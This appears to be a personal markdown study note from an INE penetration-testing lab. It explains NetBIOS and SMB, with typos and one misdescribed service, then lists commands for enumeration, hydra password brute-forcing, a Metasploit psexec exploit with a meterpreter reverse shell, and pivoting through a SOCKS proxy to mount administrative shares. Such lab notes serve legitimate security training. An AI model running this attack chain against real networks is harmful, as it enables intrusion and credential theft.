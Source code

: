 SMB and NetBIOS enumeration
- NetBIOS and SMB are two different technologies,but they are related in the context of networking and file sharing on windows networks.
- Let's break down each of them to understand their roles and how they differ.
#### NetBIOS (Network basic Input/Output System )
- NetBIOS is an API and a set of network protocols for providing communication services over a local network.It's used primarily to allow applications on different computers to find and interact with each other on a network.
- Functions:NetBIOS offer three primary services:
- Name Services (NetBIOS-NS):Allow computers to register.unregister and resolve names in a local network.
- Datagram Service (NetBIOS-DGM):Supports connection-oriented communications for more reliable data transfers.
- Sessions Service (NetBIOS-SSN):Supports connection-oriented communications for more reliable data transfers.
- Ports:NetBIOS typically uses ports 137(Name Service),138(Datagram Service),and 139(Sessions Service) over UDP and TCP.
#### SMB (Server Message Block)
- SMB is a network file sharing protocol that allows computers on a network to share files,printers and other resources .It is the primary portocol used in Windows networks for these purposes.
- Functions:SMB provides features for file and printers sharing,names pipes and inter-process communication(IPS).It allows users to access files on remote computers as i fthey were loccal.
- Versions:SMB has several versions:
  + SMB 1.0: The original version,which had security vulnerabilities.It was used with older operating systems like Windows xp.
  + SMB 2.0/2.1: Introduced with Windows vista/windows server 2008,offering improved performance and security.
  + SMB 3.0+:Introduced with  windows 8/Windows server 2012,adding features like encryption,multicahnnel supports,and improvements for virtualization
- Ports:SMB  generally uses port 445 for direct SMB traffic( bypassing NetBIOS) port 139 when operating with netbios.

### lab
#### netbios
- nmap demo.ine.local
- nbtscan [kali linux tool ]
- nbtscan 10.10.4.0/24 [ scan whole LAN and find windows hosts ]
- nmblookup -A 10.4.30.139 [ nmblookup is a kali linux tool]
- nmap -sU -sV -T4 --script nbstat.nse -p137 -Pn 10.4.30.139 []
#### smb
- nmap -sV -p 139,445 demo.ine.local [ basic port scan ]
- nmap -p445 --script smb-protocols demo.ine.local [ smb versions ]
-  nmap -p445 --script smb-security-mode demo.ine.local [ smb security level ]
- smbclient -L demo.ine.local [ annoymous access ]
- nmap -p445 --script smb-enum-users.nse 10.4.30.139 [ user enumeration ]
- hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb [ use the user name found in the previous command  as users.txt ]
- psexec.py administrator@demo.ine.local [ use the previously found credentials like administrator to login ]
- msfconsole -q 
- search psexec
- use exploit/windows/smb/psexec
- set everything requires
- set payload windows/x64/meterpreter/reverse_tcp  
- run
- this give a meterpreter sessions
##### Pivoting
- As we access the first machine now from the first machine meterpreter shell
- shell
- ping 10.4.26.4 [ ping the 2nd machine from first machine ]
- run autoroute -s 10.4.26.0/20 [ add the route via the first compromise machine to 2nd machine ]
- ctrl + z [ background the meterpreter shell ]
- search socks [ find socks module ]
- use auxiliary/server/socks_proxy 
- set VERSION 4a
- set SRVPORT 9050 [cat /etc/proxychains4.conf this will show the srvport,in this case 9050 ,use this cat command in new tab]
- run [ the session will run in background ]
- netstate -antp [ run this command in new to list the running process with port,we find 9050 port is running ]
- proxychains nmap demo1.ine.local -sT -sV -p 445  [ now we can reach demo1.ine.local as we set proxy chain previous commands and this command give basic info of demo1.ine.local ]
- sessions 2 [now back to meterpreter sessions ]

- shell 
- net view 10.4.26.4 [ this show access denied ]
- ctrl + c 
- migrate -N explorer.exe
- shell 
- net view 10.4.26.4 [ this will show all the share names ]
- net use D: \\10.4.26.4\Documents [It will connect the shared folder Documents on the remote host 10.4.26.4 and assign it to drive letter D: on your local machine.]
- net use K: \\10.4.26.4\k$ [$ symbol means adminitrative hidden ]
- dir K: [ then we access it as normal drive or files ]
- 


